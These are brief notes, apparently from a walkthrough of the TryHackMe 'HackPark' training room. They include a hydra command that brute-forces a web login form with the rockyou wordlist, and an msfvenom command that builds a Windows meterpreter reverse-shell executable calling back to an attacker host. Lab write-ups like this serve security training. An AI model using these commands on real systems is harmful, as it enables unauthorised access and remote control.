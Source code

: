 # room
https://tryhackme.com/room/hackpark

# task 1 - intro
* intro
* identify the clown

# task 2 - using hydra
* identify the login form method, right click on login button and select inspect
* identify the login form URL, navigate to the login form from the home page
* identify the login form format, capture a login request in burp and copy the entire VIEWSTATE message
* use hydra to brute force using the form method, URL, and form data from the above
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/hackpark]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.96.224 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=wycBR6wJ5hgRRXGRPm9B729vO3xseznEkHsGQfYXrIFt63TLtn6hv5MyxyZqQAnoE1T92XAowpjL45P4onwvi%2F2NRjOqvN%2FEK1VLSP6C%2F%2FQ%2BCuLpsv%2BAH28dXh%2BFMYBfLrXSHAZkD9OP6p1lMV%2Fdm5cFiavGho654ik4hFp8SsGrMiey&__EVENTVALIDATION=GGKtPTdTjDB0dv%2BJYqJLMrMEFQ%2BiuwzDc72MsQ7Qt5ffSczFFSqHkf4%2BeV%2FOnhXmBUAIrw%2B7sQFrP7CqnFPIhtPFJSSwnMG4AV9reSa%2F9b2Tv2mmt0GpNoGqOMOpYiHfJ57ubQLf9czW7B5DBZOv7FCFB%2BHUpC6egfGgEVNtfTwexK0U&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

# task 3 - compromise the machine
```
msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe LHOST=[ip] LPORT=[port] > shell.exe
```

# task 4 - windows privilege escalation
windows privilege escalation

# task 5 - privilege escalation without metasploit
privilege escalation without metasploit